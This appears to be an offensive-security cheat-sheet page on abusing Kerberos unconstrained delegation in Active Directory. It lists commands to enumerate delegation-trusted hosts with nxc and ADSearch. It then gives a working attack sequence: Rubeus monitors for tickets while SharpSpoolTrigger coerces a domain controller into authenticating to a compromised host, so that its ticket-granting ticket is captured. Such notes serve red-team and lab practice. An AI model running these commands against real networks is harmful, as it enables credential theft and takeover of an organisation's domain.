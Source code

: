 ```yaml
---
tags:
  - Authenticated
  - Elevated
  - Kerberos
  - AD
---
```

## Identify
Linux - remote
```bash
nxc ldap 192.168.0.104 -u harry -p pass --trusted-for-delegation
```
Windows - local
```powershell
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```
!!! alert "Domain Controllers are always permitted for unconstrained delegation."
## Exploit
### Force DC to auth to our box and steal tgt
Monitor for tickets with Rubeus
```bat
Rubeus.exe monitor /interval:10 /nowrap
```
Run [https://github.com/cube0x0/SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) to coerce authentication
```powershell
SharpSpoolTrigger.exe dc01.lab.local web.dev.lav.local
```
Where:

- DC01 is the "target".
- WEB is the "listener".
**Rebeus should capture a ticket**
